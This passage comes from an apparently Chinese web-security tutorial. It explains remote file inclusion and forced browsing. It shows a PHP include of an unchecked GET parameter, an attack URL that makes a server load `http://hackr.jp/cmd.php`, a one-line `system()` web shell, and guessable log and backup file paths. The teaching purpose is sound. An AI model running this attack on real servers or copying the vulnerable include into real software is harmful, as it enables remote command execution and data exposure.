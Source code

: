　　对应脚本的源代码如下所示

　　`http://example.com/foo.php`的源代码(部分摘录)

<div class="cnblogs_code">
<pre>$modname=$_GET['mod'];
include($modname);</pre>
</div>

　　攻击者指定如同下面形式的URL发出请求

<div class="cnblogs_code">
<pre>http://example.com/foo.php?mod=http://hackr.jp/cmd.php&amp;cmd=ls</pre>
</div>

　　攻击者已事先在外部服务器上准备了以下这段脚本

　　`http://hackr.jp/cmd.php`的源代码

<div class="cnblogs_code">
<pre>&lt;?system($_GET['cmd'])?&gt;</pre>
</div>

　　假设Web服务器(`example.com`)的include可以引入外部服务器的URL，那就会读入攻击者在外部服务器上事先准备的URL(`http://hackr.jp/cmd.php`)。结果，通过system函数就能在Web服务器(`example.com`)上执行查询字段指定的OS命令了

![webAttack22](https://pic.xiaohuochai.site/blog/HTTP_webAttack22.png)

　　在以上攻击案例中，执行了可显示Web服务器(example.com)上文件及目录信息的ls命令

&nbsp;

### 设置或设计缺陷

　　因设置或设计上的缺陷引发的安全漏洞是指，错误设置Web服务器，或是由设计上的一些问题引起的安全漏洞

【强制浏览】

　　强制浏览(Forced Browsing)安全漏洞是指，从安置在Web服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件

　　强制浏览有可能会造成以下一些影响：泄露顾客的个人信息等重要情报；泄露原本需要具有访问权限的用户才可查阅的信息内容；泄露未外连到外界的文件

　　对那些原本不愿公开的文件，为了保证安全会隐蔽其URL。可一旦知道了那些URL，也就意味着可浏览URL对应的文件。直接显示容易推测的文件名或文件目录索引时，通过某些方法可能会使URL产生泄露

<div class="cnblogs_code">
<pre>http://www.example.com/log/</pre>
</div>

　　通过指定文件目录名称，即可在文件一览中看到显示的文件名

<div class="cnblogs_code">
<pre>http://www.example.com/entry/entry_081202.log</pre>
</div>

　　文件名称容易推测(按上面的情况，可推出下一个文件是entry_081203.log)

<div class="cnblogs_code">
<pre>http://www.example.com/cgi-bin/entry.cgi(原始文件)
http://www.example.com/cgi-bin/entry.cgi~(备份文件)
http://www.example.com/cgi-bin/entry.bak(备份文件)</pre>
</div>
